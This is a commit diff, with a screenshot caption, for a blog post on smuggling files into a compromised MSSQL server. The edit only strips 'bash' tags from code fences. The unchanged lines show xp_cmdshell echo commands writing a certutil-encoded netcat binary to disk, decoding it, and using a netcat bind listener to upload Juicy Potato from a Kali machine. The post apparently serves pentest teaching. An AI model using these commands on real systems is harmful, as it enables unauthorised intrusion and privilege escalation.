

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2021-9-14-mssql-exfiltration.md, in a window 1280 px wide and 1400 px high, scrolled down 2714 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-9-14-mssql-exfiltration.md

````diff
--- a/_posts/2021-9-14-mssql-exfiltration.md
+++ b/_posts/2021-9-14-mssql-exfiltration.md
@@ -27,7 +27,7 @@ We have a foothold in the netwotk but the firewalls configutaion and network seg
 
 So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:
 
-```bash
+```
 certutil -encode payload.dll payload.b64
 certutil -decode payload.b64 payload.dll
 ```
@@ -36,7 +36,7 @@ So the idea is to encode a Windows binary, paste the content with mssqlclient.py
 
 So first let's encode a Netcat binary:
 
-```bash
+```
 certutil -encode nc.exe nc.txt
 ```
 
@@ -46,7 +46,7 @@ Generating a file like this one:
 
 But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:
 
-```bash
+```
 while read p; do echo "xp_cmdshell echo $p >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
 ```
 
@@ -56,19 +56,19 @@ We get a file ("commands.txt") with one command per line of the encoded payload:
 
 After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:
 
-```bash
+```
 xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
 ```
 
 Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:
 
-```bash
+```
 xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
 ```
 
 And from the Kali machine:
 
-```bash
+```
 nc -nv 10.100.10.10 8888 < juicypotato.exe
 ```
 
````
